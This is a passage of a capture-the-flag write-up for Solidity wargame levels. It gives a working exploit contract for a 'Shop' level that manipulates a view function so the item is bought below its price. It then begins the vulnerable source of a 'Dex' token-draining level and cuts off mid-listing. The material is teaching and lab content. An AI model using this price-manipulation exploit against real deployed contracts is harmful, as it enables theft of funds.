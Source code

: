 This challenge is similar to `Elevator` challenge, where we need to return different results. But here the call function is of `view` visibility. So we cannot use the help of a variable. But we could return different values based on the `isSold` parameter of the contract.

> #### Solution:
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface shop {
>     function isSold() external view returns(bool);
>     function buy() external;
> }
> 
> contract buyer {
>     shop s;
> 
>     constructor(address _instance) public{
>         s = shop(_instance);
>     }
> 
>     function callBuy() public {
>         s.buy();
>     }
> 
>     function price() external view returns (uint) {
>         if (s.isSold()) {
>             return 50;
>         }
>         return 101;
>     }
> }
> ```

<hr>

## 22 Dex
In this level we have to drain at least 1 of 2 tokens.

#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract Dex is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
```
